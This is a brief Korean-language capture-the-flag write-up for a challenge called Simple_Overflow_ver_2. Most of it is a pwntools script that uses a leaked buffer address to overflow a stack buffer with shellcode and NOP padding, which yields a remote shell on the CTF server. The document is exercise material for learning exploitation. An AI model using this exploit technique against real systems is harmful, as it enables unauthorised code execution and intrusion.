

# Simple_Overflow_ver_2

   
data에 아무 값이나 입력하면 버퍼의 주소를 얻을 수 있다.   
이 값을 이용해서 BOF를 하면 된다.   
<br/>

```
from pwn import *

p = remote('ctf.j0n9hyun.xyz', 3006)

context.arch = 'i386'
shellcode = asm(shellcraft.sh())

p.sendlineafter('Data : ', 'AAAA')
buf = int(p.recvuntil(':')[:-1],16)

p.sendlineafter('(y/n)', 'y')

payload = ''
payload += shellcode
payload += '\x90'*(136-len(shellcode)+4)
payload += p32(buf)

p.sendlineafter('Data : ', payload)
p.interactive()
```
